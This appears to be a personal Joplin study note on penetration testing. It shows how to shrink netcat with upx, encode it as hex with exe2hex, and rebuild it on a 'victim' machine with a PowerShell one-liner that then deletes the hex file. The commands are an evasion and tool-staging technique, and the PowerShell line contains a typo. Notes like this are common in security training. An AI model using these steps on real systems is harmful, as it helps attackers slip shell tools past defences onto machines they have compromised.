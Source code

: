 Upload by Hex Content

## For concealing what the exe file is, and rebuilding the file in the victim

First use upx to reduce the size of the file, but maintain its operability

> upx -9 nc.exe

Then convert the EXE to a file with HEX values. Use the .cmd for reference

> exe2hex -x nc.exe -p nc.cmd

Once the file is transferred, run the program (using command prompt), and then compile it to nc.exe with powershell

> ./nc.cmd
> 
> powershell -Command "$h=Get-Content -readcount 0 -path './nc.hex'; $l=$h\[0\].length;$b=New-Object byte\[\] ($l/2);$x=0;for ($i=0;$i -le $l-1;$i+=2){$b\[$x\]=\[byte\]::Parse($h\[0\].Substring($i,2),\[System.Globalization.NumberStyles\]::HexNumber);$x+=1}; Set-Content -encoding byte 'nc.exe' -value $b; Remove=Item -force nc.hex;"

id: 3822cc0f7b034c9182855c18663965d9
parent_id: 819fca2060d64809bbdac4fc93fdd86a
created_time: 2022-01-28T02:01:40.100Z
updated_time: 2022-01-28T02:32:43.927Z
is_conflict: 0
latitude: 0.00000000
longitude: 0.00000000
altitude: 0.0000
author: 
source_url: 
is_todo: 0
todo_due: 0
todo_completed: 0
source: joplin-desktop
source_application: net.cozic.joplin-desktop
application_data: 
order: 0
user_created_time: 2022-01-28T02:01:40.100Z
user_updated_time: 2022-01-28T02:32:43.927Z
encryption_cipher_text: 
encryption_applied: 0
markup_language: 1
is_shared: 0
share_id: 
conflict_original_id: 
master_key_id: 
type_: 1